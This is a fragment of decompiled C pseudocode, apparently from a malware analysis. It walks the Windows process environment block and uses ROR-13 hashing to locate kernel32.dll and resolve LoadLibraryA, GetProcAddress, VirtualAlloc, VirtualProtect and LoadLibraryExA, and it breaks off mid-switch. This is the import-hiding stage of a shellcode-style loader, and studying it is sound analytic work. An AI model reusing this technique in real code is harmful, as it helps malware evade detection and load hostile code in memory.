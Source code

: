 ```c
  Ldr = NtCurrentPeb()->Ldr;
  for ( j = Ldr->InMemoryOrderModuleList.Flink; j; j = j->Flink )
  {
    Flink = j[5].Flink;
    Blink = (__int16)j[4].Blink;
    k = 0;
    do
    {
      k = __ROR4__(k, 0xD);
      if ( LOBYTE(Flink->Flink) < 0x61u )
        k += LOBYTE(Flink->Flink);
      else
        k = k + LOBYTE(Flink->Flink) - 0x20;
      Flink = (struct _LIST_ENTRY *)((char *)Flink + 1);
      --Blink;
    }
    while ( Blink );
    if ( k == 0x6A4ABC5B )                      // kernel32.dll
    {
      Ldr = (PPEB_LDR_DATA)j[2].Flink;
      break;
    }
  }
  v21 = (struct _LIST_ENTRY **)((char *)&(*(struct _LIST_ENTRY **)((char *)&Ldr[1].InLoadOrderModuleList.Flink[0xF].Flink
                                                                 + (unsigned int)Ldr))->Flink
                              + (unsigned int)Ldr);
  v38 = (ULONG *)((char *)&Ldr->Length + v21[8]);
  v23 = (unsigned __int16 *)((char *)Ldr + v21[9]);
  v17 = 6;
  while ( v17 )
  {
    v4 = (char *)Ldr + *v38;
    v5 = 0;
    do
      v5 = __ROR4__(v5, 0xD) + (char)*v4++;
    while ( *v4 );
    if ( v5 == 0xEC0E4E8E
      || v5 == 0x7C0DFCAA
      || v5 == 0x91AFCA54
      || v5 == 0x7946C61B
      || v5 == 0x753A4FC
      || v5 == 0xD3324904 )
    {
      v13 = (ULONG *)((char *)&Ldr->Length + 4 * *v23 + v21[7]);
      switch ( v5 )
      {
        case 0xEC0E4E8E:
          f_LoadLibraryA = (int (__stdcall *)(void *))((char *)Ldr + *v13);
          break;
        case 0x7C0DFCAA:
          f_GetProcAddress = (int (__stdcall *)(int, unsigned int))((char *)Ldr + *v13);
          break;
        case 0x91AFCA54:
          f_VirtualAlloc = (int (__stdcall *)(_DWORD, DWORD, int, int))((char *)Ldr + *v13);
          break;
        case 0x7946C61B:
          f_VirtualProtect = (void (__stdcall *)(unsigned int, DWORD, int, char *))((char *)Ldr + *v13);
          break;
        case 0x753A4FC:
          f_LoadLibraryExA = (int (__stdcall *)(_IMAGE_DOS_HEADER *, _DWORD, int))((char *)Ldr + *v13);
```